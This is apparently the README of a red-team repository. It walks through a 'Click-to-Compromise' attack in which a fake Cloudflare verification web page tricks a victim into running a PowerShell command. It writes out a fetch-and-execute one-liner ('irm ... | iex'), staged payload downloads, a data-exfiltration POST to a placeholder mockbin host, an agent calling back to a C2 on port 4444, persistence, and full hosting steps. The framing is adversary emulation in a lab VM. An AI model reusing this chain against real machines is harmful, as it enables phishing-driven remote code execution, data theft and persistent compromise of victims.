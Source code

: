 # Materials for Click-to-Compromise technique

[This article](https://amtzespinosa.github.io/posts/click-to-compromise/) is a deep dive into the **Click-to-Compromise** technique: a minimal-interaction, post-phishing attack chain that transitions from a single PowerShell command into full system compromise. It’s designed for red teamers, malware analysts, adversary emulation professionals, and curious defenders looking to understand modern evasion techniques beyond script kiddie noise.

## The attack chain

<div align="center"> 
  <img src="/resources/attack_chain.png" alt="" />
</div>

## The files

- **c2-server folder:** contains the source code I have used within an IDE (IntelliJ IDEA) to run the C2.
- **website folder:** contains the web files ready to host in a server.
- **payloads folder:** contains the *.ps1* files.

## The setup

I tried to keep the setup as simple as possible for replication purposes: just 2 machines running Windows 11.

### Attacker

I was investigating on Windows 11 OS and the only tools needed are:
- Docker
- VirtualBox
- IDE to run the C2 and modify the code as needed
- Cloudflare Tunnel (setup is out if the scope of this doc)

> **REMEBER: Modify the payloads as needed in all files.**

On Cloudflare Zero Trust, create a tunnel (if you don't have one already) and create a public hostname pointing to your website server local IP. This will be your malicious website that we will need to add in the next step. 

Inside `index.html`:

```javascript
var maliciousCommand = 'powershell -ExecutionPolicy Bypass -NoProfile -Command irm \'<https://your.serverurl.com/payload.html>\' | iex';
```

Inside `payload.html`:

```
Invoke-WebRequest -Uri https://your.serverurl.com/payloads/cloudflare.verification.txt -OutFile $env:USERPROFILE\Desktop\cloudflare.verification.ps1; 
powershell -ExecutionPolicy Bypass -File $env:USERPROFILE\Desktop\cloudflare.verification.ps1
```

Inside `cloudflare.verification.txt`:

```
Invoke-WebRequest -Uri https://your.serverurl.com/payloads/infoexfil.ps1 -OutFile $env:USERPROFILE\Desktop\infoexfil.ps1

Invoke-WebRequest -Uri https://your.serverurl.com/payloads/agent.ps1 -OutFile "$env:USERPROFILE\Desktop\agent.ps1"

Invoke-WebRequest -Uri https://your.serverurl.com/payloads/persist.ps1 -OutFile "$env:USERPROFILE\Desktop\persist.ps1"
```

Inside `infoexfil.ps1`:

```powershell
Invoke-WebRequest -Uri "https://yourmockbin.api.mockbin.io/" -Method POST -Body $body -ContentType "application/json"
```

Inside `agent.ps1`:

```powershell
$C2 = "YOUR IP ADDRESS"
$Port = 4444
```

Inside `persist.ps1`:

```powershell
Invoke-WebRequest -Uri "https://your.serverurl.com/payloads/agent.ps1" -OutFile $payloadPath
```

#### Database

I have used **Docker Desktop**. Run a **MySQL** container with the following **environmental variables**:

```
MYSQL_ROOT_PASSWORD=w0DSQGYPsvARiBVTiwKKH3otYZ4rxKGu
MYSQL_DATABASE=c2server
```

Start the container.

#### C2

Open your preferred IDE and open the C2 files as a project. Then:

1. Run **TestDBConnection** class first to make sure your DB connection is fine and to create the **agents** table
2. Build the artifacts to deploy with **Tomcat**
3. Deploy to **Tomcat** and visit **/server/agents** endpoint

#### Website

I have used NGINX running on Docker. Start the container in your desired port (not 8080, I used a random 6984) and launch a terminal inside the website folder. To copy the files inside the container, run the following commands:

```
docker ps
```
This will list your running containers, identify your server conatiner name. Next, create the `payloads` directory in your server:

```
mkdir /usr/share/nginx/html/payloads
```

Then, launch a terminal inside your website folder and copy the files into your server Docker container with this commands:

```
docker cp index.html clickfix:/usr/share/nginx/html/
docker cp payloads.html clickfix:/usr/share/nginx/html/

docker cp turnstyle.css clickfix:/usr/share/nginx/html/
docker cp turnstile_gif.gif clickfix:/usr/share/nginx/html/
docker cp recaptcha.png clickfix:/usr/share/nginx/html/
```

Now, launch a terminal inside your payloads folder and copy the files into your server Docker container with this commands::

```
docker cp cloudflare.verification.ps1 clickfix:/usr/share/nginx/html/payloads/
docker cp infoexfil.ps1 clickfix:/usr/share/nginx/html/payloads/
docker cp persist.ps1 clickfix:/usr/share/nginx/html/payloads/
docker cp persist.ps1 clickfix:/usr/share/nginx/html/payloads/
``` 

### Victim

For the victim, I used a VirtualBox VM running **Windows 11 (24H2)** in bridged adapter mode. Then I just installed Chrome to access the website.

#### VM config

<div align="left"> 
  <img src="/resources/win_11_setup.png" width="500" alt="" />
</div>

## The attack

Once everything is running and tested, let's infect the victim machine. To do so, inside your victim VM just visit your malicious website and follow the prompt as an innocent victim would. If you did everything right, you should see how the files get downloaded in the Desktop and, after a minute or so, how the agent appears in your C2 agents panel at **/server/agents**.

This PoC video briefly shows how everything works including persistence after reboot.

https://github.com/user-attachments/assets/7a59ae1a-8eca-4d59-8513-4921c8803b61


